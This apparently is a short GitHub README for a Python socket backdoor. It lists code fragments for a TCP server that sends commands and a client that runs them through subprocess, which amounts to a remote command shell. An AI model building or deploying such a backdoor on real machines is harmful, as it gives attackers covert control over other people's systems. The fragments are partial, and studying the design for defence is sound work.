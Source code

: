 # Backdoor-Client-Server-Socket-Python
Simple backdoor using lib python's socket

# lib
- from socket import * # for connection
- import subprocess # for cmd command

# Server
- `sock = socket(AF_INET, SOCK_STREAM)` # set TCP socket
- `port = 12345` # port of server
- `sock.bind(('', port)) && sock.listen(1)` # set server
- `conn, addr = sock.accept()` # conn = connection && addr = (client)address
- `conn.send(command.encode())` # send in array bytes
- `conn.recv(1024).decode("utf-8")` #receive and convert in string

# Client
- `CMD = subprocess.Popen(command, ...)` # set subprocess for send CMD command

![Image](https://github.com/NoNameoN-A/Backdoor-Client-Server-Socket-Python/edit/main/screenshot.png)
